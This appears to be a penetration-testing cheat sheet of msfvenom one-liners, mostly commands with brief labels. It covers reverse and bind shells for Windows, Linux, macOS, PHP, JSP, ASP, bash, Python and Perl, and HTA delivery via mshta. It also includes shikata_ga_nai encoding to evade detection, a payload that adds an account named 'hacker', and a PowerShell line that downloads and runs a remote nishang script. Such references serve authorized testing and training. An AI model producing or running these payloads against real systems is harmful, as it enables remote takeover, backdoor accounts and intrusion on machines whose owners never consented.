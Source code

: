 # MSFVenom

### WinX86
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=445 -f exe > shell-x86.exe 
```
### WinX64
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=445 -f exe > shell-x64.exe
```
### PHP
```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=445 -f raw > shell.php
```
### mshta.exe
```
msfvenom -p windows/x64/shell_reverse_tcp   LHOST=10.10.10.10 LPORT=445  EXITFUNC=thread -f hta-psh -o shell.hta
```
### shikata_ga_nai
```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=445 -f exe -o shika-shellx86.exe
```
### Linux X64 X86
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
	
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```




# List :


| MSFVenom Payload Generation One-Liner | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|    msfvenom -p PAYLOAD --list-options                                                                                                                                                                 |    List payload options                                     |
|    msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe                                                                                             |    Windows Meterpreter http reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

